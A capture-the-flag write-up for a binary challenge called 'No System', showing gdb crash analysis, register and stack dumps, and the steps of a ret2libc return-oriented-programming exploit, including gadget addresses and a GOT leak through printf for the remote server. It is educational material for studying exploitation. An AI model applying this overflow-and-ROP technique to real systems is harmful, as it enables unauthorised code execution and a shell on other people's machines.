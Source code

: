 # No System

### Description

![](Description1.png)

![](Description2.png)

## Solution

### Initial Analysis

I disassembled using `objdump` (output in `Analysis/disassembly.txt`), found out the ROPgadgets using `ROPgadget` (output in `Analysis/ROPgadgets.txt`), and ran the binary in gdb.
```
_______  _     _  __    _  _______  __   __  _______  _______  ______   
|       || | _ | ||  |  | ||       ||  | |  ||       ||       ||    _ |  
|    _  || || || ||   |_| ||_     _||  | |  ||_     _||   _   ||   | ||  
|   |_| ||       ||       |  |   |  |  |_|  |  |   |  |  | |  ||   |_||_
|    ___||       ||  _    |  |   |  |       |  |   |  |  |_|  ||    __  |
|   |    |   _   || | |   |  |   |  |       |  |   |  |       ||   |  | |
|___|    |__| |__||_|  |__|  |___|  |_______|  |___|  |_______||___|  |_|

=========================================================================
                        Stage 5: No System
=========================================================================
Enter Username => Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9
Greetings Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9!
Program received signal SIGSEGV, Segmentation fault.
0x00000000004007b9 in main ()
(gdb) info reg
rax            0x0                 0
rbx            0x4007c0            4196288
rcx            0x0                 0
rdx            0x0                 0
rsi            0x7fffffffc290      140737488339600
rdi            0x7ffff7f9b4d0      140737353725136
rbp            0x3769413669413569  0x3769413669413569
rsp            0x7fffffffe4b8      0x7fffffffe4b8
r8             0xfffffffffffffffa  -6
r9             0x7ffff7f5d0c0      140737353470144
r10            0x7ffff7f5cfc0      140737353469888
r11            0x246               582
r12            0x4005c0            4195776
r13            0x0                 0
r14            0x0                 0
r15            0x0                 0
rip            0x4007b9            0x4007b9 <main+202>
eflags         0x10202             [ IF RF ]
cs             0x33                51
ss             0x2b                43
ds             0x0                 0
es             0x0                 0
fs             0x0                 0
gs             0x0                 0
(gdb) x/128wx 0x7fffffffe4b8
0x7fffffffe4b8:	0x41386941	0x6a413969	0x316a4130	0x41326a41
0x7fffffffe4c8:	0x6a41336a	0x356a4134	0x41366a41	0x6a41376a
0x7fffffffe4d8:	0x396a4138	0x00007f00	0x004007c0	0x00000000
0x7fffffffe4e8:	0x1aaa24a1	0x0a215e57	0x004005c0	0x00000000
0x7fffffffe4f8:	0x00000000	0x00000000	0x00000000	0x00000000
0x7fffffffe508:	0x00000000	0x00000000	0xd32a24a1	0xf5dea1a8
0x7fffffffe518:	0xcf1e24a1	0xf5deb1e8	0x00000000	0x00000000
0x7fffffffe528:	0x00000000	0x00000000	0x00000000	0x00000000
0x7fffffffe538:	0x00000001	0x00000000	0xffffe5a8	0x00007fff
0x7fffffffe548:	0xffffe5b8	0x00007fff	0xf7ffe1e0	0x00007fff
0x7fffffffe558:	0x00000000	0x00000000	0x00000000	0x00000000
0x7fffffffe568:	0x004005c0	0x00000000	0xffffe5a0	0x00007fff
0x7fffffffe578:	0x00000000	0x00000000	0x00000000	0x00000000
0x7fffffffe588:	0x004005e9	0x00000000	0xffffe598	0x00007fff
0x7fffffffe598:	0x0000001c	0x00000000	0x00000001	0x00000000
0x7fffffffe5a8:	0xffffe882	0x00007fff	0x00000000	0x00000000
0x7fffffffe5b8:	0xffffe945	0x00007fff	0xffffe955	0x00007fff
0x7fffffffe5c8:	0xffffe9af	0x00007fff	0xffffe9c3	0x00007fff
0x7fffffffe5d8:	0xffffe9da	0x00007fff	0xffffe9fc	0x00007fff
0x7fffffffe5e8:	0xffffea03	0x00007fff	0xffffea2c	0x00007fff
0x7fffffffe5f8:	0xffffea47	0x00007fff	0xffffea65	0x00007fff
0x7fffffffe608:	0xffffeb23	0x00007fff	0xffffeb42	0x00007fff
0x7fffffffe618:	0xffffeb51	0x00007fff	0xffffeb66	0x00007fff
0x7fffffffe628:	0xffffeb81	0x00007fff	0xffffeb90	0x00007fff
0x7fffffffe638:	0xffffebb9	0x00007fff	0xffffebc6	0x00007fff
0x7fffffffe648:	0xffffebd5	0x00007fff	0xffffebde	0x00007fff
0x7fffffffe658:	0xffffebf3	0x00007fff	0xffffec05	0x00007fff
0x7fffffffe668:	0xffffec15	0x00007fff	0xffffec26	0x00007fff
0x7fffffffe678:	0xffffec40	0x00007fff	0xffffec4b	0x00007fff
0x7fffffffe688:	0xffffec5c	0x00007fff	0xffffec7a	0x00007fff
0x7fffffffe698:	0xffffecd0	0x00007fff	0xffffece7	0x00007fff
0x7fffffffe6a8:	0xffffecfb	0x00007fff	0xffffed06	0x00007fff
```

### Pwning on the local System

This should be easy enough I think. Basically Return Oriented Programming, but this time to libc, and linking to the global offset table.
So here are some of the steps
1. Pad 256 characters to fill up the variable and overflow
2. Add some random location
3. Using the ROPgadget `0x0000000000400823 : pop rdi ; ret`, you can pass in the string `/bin/sh` into a function
   * I used pwntools to find the `/bin/sh` in libc
4. Put the `system` function address
   * I found the address of system using `print system` in gdb.
   ```
   (gdb) print system
   $4 = {<text variable, no debug info>} 0x7ffff7e21120 <system>
   ```
   * However, the stack initially didn't have the value I input in (when I  checked with gdb). Then I realised that `scanf` doesn't allow for the encoding of `0x20` (Space character) for `%s`.
   * What i did was to disassemble `system`, and jump to the next instruction. Luckily the first instruction doesn't appear to be important.
   ```
   (gdb) disassemble system
    Dump of assembler code for function system:
       0x00007ffff7e21120 <+0>:	endbr64
       0x00007ffff7e21124 <+4>:	test   %rdi,%rdi
       0x00007ffff7e21127 <+7>:	je     0x7ffff7e21130 <system+16>
       0x00007ffff7e21129 <+9>:	jmp    0x7ffff7e20b80 <do_system>
       0x00007ffff7e2112e <+14>:	xchg   %ax,%ax
       0x00007ffff7e21130 <+16>:	sub    $0x8,%rsp
       0x00007ffff7e21134 <+20>:	lea    0x142833(%rip),%rdi        # 0x7ffff7f6396e
       0x00007ffff7e2113b <+27>:	call   0x7ffff7e20b80 <do_system>
       0x00007ffff7e21140 <+32>:	test   %eax,%eax
       0x00007ffff7e21142 <+34>:	sete   %al
       0x00007ffff7e21145 <+37>:	add    $0x8,%rsp
       0x00007ffff7e21149 <+41>:	movzbl %al,%eax
       0x00007ffff7e2114c <+44>:	ret    
    End of assembler dump.
  ```

  My code is in `localsolve.py`

### Pwning on the Remote server

The real challenge is finding the locations of the string `/bin/sh`, as well as the `system` function on the remote server.

Luckily, I googled "ASLR find libc", and found this guide [here](https://www.ret2rop.com/2020/04/got-address-leak-exploit-unknown-libc.html). It says
```
If you look at man page of printf for format specifier "%s", it takes memory location of char array as an argument and prints characters from there until a null byte is encountered. That means it will print memory data from any address we provide to it. So if we provide address of GOT section, it will print the resolved libc address that was stored there.
```


I realised that `printf` could be used to leak the libc address.
1. Firstly I found the address of the string in the disassembly (testing using gdb) `0x400b07`
2. From the disassembly, we can figure out the address of the GOT is `0x601000`, based on this comment `# 601008 <_GLOBAL_OFFSET_TABLE_+0x8>`
3. The address of `printf` can be found in the PLT section `0000000000400570 <printf@plt>:`


## Flag

``
